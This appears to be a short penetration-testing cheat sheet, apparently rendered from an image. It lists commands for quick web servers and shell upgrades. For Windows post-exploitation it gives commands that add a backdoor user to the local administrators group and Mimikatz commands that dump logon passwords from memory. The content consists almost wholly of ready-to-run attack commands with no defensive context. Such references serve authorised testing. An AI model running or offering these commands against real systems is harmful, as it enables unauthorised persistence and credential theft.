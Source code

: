 
### Simple Web Servers

python3 -m http.server

python -m SimpleHTTPServer 80


### Shell Upgrade!

>python -c "import pty; pty.spawn('/bin/bash')"

>/bin/bash -i


### Post Exploitation

Add new user and add to local admin group

> net user gary password /add

> net localgroup administrators gary /add



## Get Passwords

> privilege::debug

> sekurlsa::logonpasswords
